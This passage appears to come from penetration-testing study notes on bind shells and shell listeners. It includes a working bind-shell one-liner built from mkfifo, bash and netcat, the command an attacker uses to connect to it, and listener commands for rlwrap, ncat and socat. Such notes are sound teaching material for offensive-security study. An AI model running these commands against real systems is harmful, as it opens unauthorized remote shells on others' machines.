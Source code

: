 ## Bind shell
- Bind shell will bind a port on the compromised system and listen for a connection.
- This method can be used when the compromised target does not allow outgoing connections.
- Less popular since it needs to remain active and listen for connections, which can lead to detection.

### How bind shells work?
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
- `| nc -l 0.0.0.0 8080` - Starts netcat on listening mode on port 8080.
- **Note:** Any ports below 1024 would require admin privileges. 

### Attacker connecting to the shell
- An attacker can then connect to the bind shell using the below command.

    ```
    nc -nv TARGET_IP 8080
    ```

## Shell Listeners
- There are other shell listeners apart from netcat. Few of them are listed below.

### Rlwrap
- Small utility that uses GNU readline library to provide editing keyboard and history.
- Netcat can be enhanced with rlwrap using the below command.
    ```
    rlwrap nc -lvnp 443
    ```
- This wraps nc with rlwrap, allowing the use of features like arrow keys and history for better interaction.

### Ncat
- Ncat is an improved version of netcat allowing features like SSL encryption.
    ```
    ncat -lvnp 4444
    ```
- To enable ssl encryption
    ```
    ncat --ssl -lvnp 4444
    ```

### Socat
- Creates a socket connection between two data sources, in this case, two different hosts.
    ```
    socat -d -d TCP-LISTEN:443 STDOUT
    ```
    - `-d` - Verbose output.
    - `-d -d` - Increases the verbosity.
    - `TCP-LISTEN:443` - Creates a TCP connection on port 443.
    - `STDOUT` - Redirects any incoming data to the terminal.
